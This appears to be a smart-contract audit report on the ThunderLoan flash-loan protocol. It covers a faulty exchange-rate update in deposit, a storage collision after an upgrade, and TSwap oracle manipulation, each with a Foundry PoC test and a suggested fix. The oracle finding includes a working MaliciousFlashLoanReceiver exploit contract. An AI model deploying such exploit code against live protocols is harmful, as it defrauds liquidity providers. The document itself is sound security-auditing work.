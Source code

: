 ### [H-1] Erroneous `ThunderLoan::updateExchangeRate` in the `deposit` function causes protocol to think it has more fees than it really does, which blocks redemption and incorrectly sets the exchange rate.

**Description:**

In the ThunderLoan system, the `exchangeRate` is responsible for calculating the exchange rate between assetTokens and underlying tokens. In a way, it's responsible for keeping track of how many fees to give a liquidity providers.

However, the `deposit` function, updates this rate, without collecting any fees!

```javascript
 function deposit(
        IERC20 token,
        uint256 amount
    ) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) /
            exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

@>      uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:**

There are several impacts to this bug:

1. The `redeem` function is blocked, because the protocol thinks the owed tokens is more than it has.
2. Rewards are incorrectly calculated, leading to liquidity providers potentially getting way more or less than deserved.

**Proof of Concept:**

1. LP deposited
2. User takes out a flash loan
3. It's now impossible to redeem the LP tokens

<details>
<summary>PoC</summary>

Place the following into `ThunderLoadTest.t.sol`

```javascript
 function testRedeemAfterLoan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(
            tokenA,
            amountToBorrow
        );
        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(
            address(mockFlashLoanReceiver),
            tokenA,
            amountToBorrow,
            ""
        );
        vm.stopPrank();

        uint256 amountToRedeem = type(uint256).max;

        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
        vm.stopPrank();
    }
```

</details>

**Recommended Mitigation:**

Remove the incorrectly updated exchange rate lines from the `deposit` function.

```diff
function deposit(
        IERC20 token,
        uint256 amount
    ) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) /
            exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

### [H-2] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning`, freezing protocol

**Description:**

`ThunderLoan.sol` has two variables in the following order:

```javascript
    uint256 private s_feePrecision;
    uint256 private s_flashLoanFee; // 0.3% ETH fee
```

However, the upgraded contract `ThunderLoanUpgraded,sol` has them in a different order:

```javascript
    uint256 private s_flashLoanFee; // 0.3% ETH fee
    uint256 public constant FEE_PRECISION = 1e18;
```

Due to how Solidity storage works, after the upgrade the `s_flashLoanFee` will have the value of `s_feePrecision`. You cannot adjust the position of storage variables, and removing storage variables for constant variables, breaks the storage locations as well.

**Impact:**

After the upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`, this means that users who take out flash loans right after an upgrade will be charged the wrong fee.

More importantly, the `s_currentlyFlashLoaning` mapping with storage in the wrong storage slot.

**Proof of Concept:**

<details>
<summary>PoC</summary>

Place the following into `ThunderLoanTest.t.sol`

```javascript
import {ThunderLoanUpgraded} from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";
.
.
.

 function testUpgradedBreaks() public {
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeToAndCall(address(upgraded), "");
        uint256 feeAfterUpgrade = upgraded.getFee();
        vm.stopPrank();

        console.log("Fee Before Upgrade: ", feeBeforeUpgrade);
        console.log("Fee After Upgrade: ", feeAfterUpgrade);
        assert(feeBeforeUpgrade != feeAfterUpgrade);
    }
```

You can also see the storage layout difference by running `forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`

</details>

**Recommended Mitigation:**

If you must remove the storage variable, leave it as blank as to not mess up the storage slots.

```diff
-   uint256 private s_flashLoanFee; // 0.3% ETH fee
-   uint256 public constant FEE_PRECISION = 1e18;
+   uint256 private s_blank; // 0.3% ETH fee
+   uint256 private s_flashLoanFee; // 0.3% ETH fee
+   uint256 public constant FEE_PRECISION = 1e18;
```

### [M-1] Using TSwap as price oracle leads to price and oracle manipulation attacks

**Description:**

The TSwap protocol is a constant product formula based AMM. The price of a token is determined by how many reserves are on either side of the pool. Because of this, it's easy for malicious users to manipulate the price of a token by buying or selling a large amount of the token in the same transaction, essentially ignoring protocol fees.

**Impact:**

Liquidity providers will drastically reduced fees for providing liquidity.

**Proof of Concept:**

The following all happens in 1 transaction:

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
   1. User sells 1000 `tokenA`, tanking the price.
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`.
      1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is substantially cheaper than the first.

```javascript
  function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
        return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```

    3. The user then repays the first flash loan, and then repays the second flash loan.

<details>
<summary>PoC</summary>

place the following into `ThunderLoanTest.t.sol`

```javascript
 function testOracleManipulation() public {
        // set up contracts
        thunderLoan = new ThunderLoan();
        tokenA = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");
        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));

        // create a TSwap Dex between tokenA and WETH
        address tswapPool = pf.createPool(address(tokenA));
        thunderLoan = ThunderLoan(address(proxy));

        thunderLoan.initialize(address(pf));

        // Fund TSwap

        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(address(tswapPool), 100e18);
        weth.mint(liquidityProvider, 100e18);
        weth.approve(address(tswapPool), 100e18);
        BuffMockTSwap(tswapPool).deposit(
            100e18,
            100e18,
            100e18,
            block.timestamp
        );
        vm.stopPrank();

        // Fund ThunderLoan

        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);

        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 1000e18);
        vm.stopPrank();

        // We are going to take out 2 flash loans
        // 1. To nuke the price of tokenA/Weth on TSwap
        // 2. To show that doing so greatly reduces the fees we pay on ThunderLoan

        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
        console.log("Normal Fee Cost: ", normalFeeCost);
        // 0.296147410319118389

        uint256 amountToBorrow = 50e18;
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(
            address(tswapPool),
            address(thunderLoan),
            address(thunderLoan.getAssetFromToken(tokenA))
        );

        vm.startPrank(user);
        tokenA.mint(address(flr), 100e18);
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 attackFee = flr.feeOne() + flr.feeTwo();
        // 0.214167600932190305
        console.log("Attack Fee Cost: ", attackFee);
        assert(attackFee < normalFeeCost);
    }

```

also this contract to `ThunderLoanTest.t.sol`

```javascript
contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    address repayAddress;
    BuffMockTSwap tswapPool;
    bool attacked;
    uint256 public feeOne;
    uint256 public feeTwo;

    constructor(
        address _tswapPool,
        address _thunderLoan,
        address _repayAddress
    ) {
        tswapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
        attacked = false;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /*params*/
    ) external returns (bool) {
        if (!attacked) {
            feeOne = fee;
            attacked = true;
            uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(
                50e18,
                100e18,
                100e18
            );
            IERC20(token).approve(address(tswapPool), 50e18);
            tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(
                50e18,
                wethBought,
                block.timestamp
            );

            thunderLoan.flashloan(address(this), IERC20(token), amount, "");

            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(address(repayAddress), amount + fee);
        } else {
            feeTwo = fee;
            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(address(repayAddress), amount + fee);
        }
        return true;
    }
}

```

</details>

**Recommended Mitigation:**

Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle.
